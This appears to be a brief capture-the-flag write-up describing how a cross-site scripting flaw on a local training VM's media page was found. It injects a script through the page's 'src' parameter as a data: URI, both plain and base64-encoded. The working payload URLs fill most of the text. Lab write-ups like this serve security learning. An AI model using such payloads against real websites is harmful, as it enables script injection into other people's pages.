 xss injection on the nsa page

Clicking on the nsa image sends use to http://192.168.56.101/?page=media&src=nsa
"src=" seems to be the path of a ressource if we try "test" we'll get a 404 small page embedded in the center of the error page
now let try the root "/", we get a small embedded homepage instead of the error 404

Let's try to send a script by using the data tag:
http://192.168.56.101/?page=media&src=data:text/html,<script>alert('42');</script>

The page seems to exec the script properly but we still didn't get the flag

let's try to encode it in base64
http://192.168.56.101/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnNDInKTs8L3NjcmlwdD4=

Et voilà
